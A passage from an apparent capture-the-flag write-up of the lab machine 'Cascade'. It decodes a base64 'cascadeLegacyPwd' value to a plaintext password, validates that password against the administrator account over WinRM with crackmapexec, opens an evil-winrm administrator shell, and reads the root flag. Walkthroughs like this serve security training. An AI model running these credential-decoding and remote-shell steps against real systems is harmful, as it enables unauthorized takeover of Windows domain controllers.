 

Immediately `cascadeLegacyPwd : YmFDVDNyMWFOMDBkbGVz` jumps out. It
decodes to `baCT3r1aN00dles`:



    root@kali# echo YmFDVDNyMWFOMDBkbGVz | base64 -d
    baCT3r1aN00dles



### WinRM

This password works for the main administrator account:



    root@kali# crackmapexec winrm 10.10.10.182 -u administrator -p baCT3r1aN00dles
    WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
    WINRM       10.10.10.182    5985   CASC-DC1         [+] CASCADE\administrator:baCT3r1aN00dles (Pwn3d!)



I can get a WinRM session as administrator:



    root@kali# evil-winrm -u administrator -p baCT3r1aN00dles -i 10.10.10.182

    Evil-WinRM shell v2.3

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\Administrator\Documents>



And get `root.txt`:



    *Evil-WinRM* PS C:\Users\Administrator\desktop> cat root.txt
    5e9c87e9************************







